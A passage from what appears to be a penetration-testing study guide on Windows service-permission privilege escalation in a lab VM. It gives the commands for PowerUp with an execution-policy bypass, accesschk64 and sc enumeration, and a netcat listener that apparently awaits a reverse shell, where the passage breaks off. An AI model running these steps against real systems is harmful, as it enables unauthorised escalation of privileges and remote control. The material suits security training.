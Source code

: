 1. Run Powerup.ps1 and Run `Invoke-AllChecks` (check the service permissions field)

```console
C:\Temp> powershell -ep bypass
PS C:\Temp>. .\PowerUp.sp1
PS C:\Temp> Invoke-AllChecks
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/aff13a5b-82aa-486b-b7ed-8b23ca523762)

continue enumeration to check if you can change the path of the service

### Checking manually on Windows VM

1. Run [AccessChk64.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)

```console
C:\Temp> accesschk64.exe -uwcv Everyone *

# Switch meaning
# w --> only show items that have write access
# v --> verbose; dispaly as many details as possible
# u --> ignore the errors
# c --> displays service name of the following
# Everyone --> means everyone as a group who hass access
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/732f0827-ca4d-4abe-8c76-bd679036255a)

we got the same service again from manual enumeration

2. Using [AccessChk64.exe](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) query the service found
```console
C:\Temp> accesschk64.exe -uwcv daclsvc
```
![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/5513d357-9577-4051-bdbd-21e04207f7e4)

we can start & stop the service.

3. Find the BINARY_PATH_NAME
```console
C:\Temp> sc qc daclsvc
```

![image](https://github.com/AbdullahZuhair21/CRTP/assets/154827329/d611d97c-fc41-4442-8ac5-68cc8f37c35e)


##  <span style="color:lightgreen">Exploitation</span>

### Kali VM
1. Start a netcat listener
```console
$ sudo nc -nvlp 53
```
